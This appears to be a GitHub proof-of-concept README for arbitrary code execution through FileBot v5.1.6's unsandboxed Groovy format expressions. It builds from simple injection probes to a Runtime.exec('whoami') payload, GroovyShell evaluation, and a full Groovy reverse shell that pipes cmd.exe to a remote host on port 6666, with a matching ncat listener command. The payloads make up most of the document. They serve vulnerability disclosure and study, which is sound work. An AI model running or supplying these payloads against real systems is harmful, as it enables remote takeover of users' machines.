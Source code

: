 # unsandboxed-groovy-poc

Intended but Dangerous Unsandboxed Scripting Feature or Arbitrary Code Execution (ACE) / Code Injection Vulnerability?
Tested with FileBot v5.1.6


## Initial Testing

```{{7*7}}```

![image](https://github.com/user-attachments/assets/3a52a280-c553-4e50-a4e9-5d062ef6842d)


```{{7/0}}```

![image](https://github.com/user-attachments/assets/b7f54b29-5105-496b-ab7f-5d5b77ff1255)


```{"foo".toUpperCase()}```

![image](https://github.com/user-attachments/assets/cdd60f92-17ff-4ca9-99ae-bb5071bb3a24)


## Determine the backend language to be Apache Groovy

```java
${T(java.lang.Runtime).getRuntime().exec('whoami')}
```
![image](https://github.com/user-attachments/assets/78055dcd-ba25-4154-bfa4-68a8f819950a)

![image](https://github.com/user-attachments/assets/5bcdc26f-5465-40d6-8546-ca2e611ba179)


## More Testing

```java
{def shell = new GroovyShell()  }
```

![image](https://github.com/user-attachments/assets/e7d6c3a7-b16d-4989-85fa-805c5e686acd)


```java
{def shell = new GroovyShell()                           
def result = shell.evaluate '3*5'}
```

![image](https://github.com/user-attachments/assets/99230eab-3a31-4424-94ed-ec21dbed59cb)



## Reverse Shell

```java
{String host="192.168.1.X";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();}
```

![image](https://github.com/user-attachments/assets/fd5f8741-2510-4072-bdff-c752a018b81c)


```bash
ncat.exe -lvnp 6666
```

## Code

https://github.com/mobeigi/filebot/blob/master/source/net/filebot/format/ExpressionFilter.java

![image](https://github.com/user-attachments/assets/d22f861b-0779-41c4-b1cb-436d6f98771b)
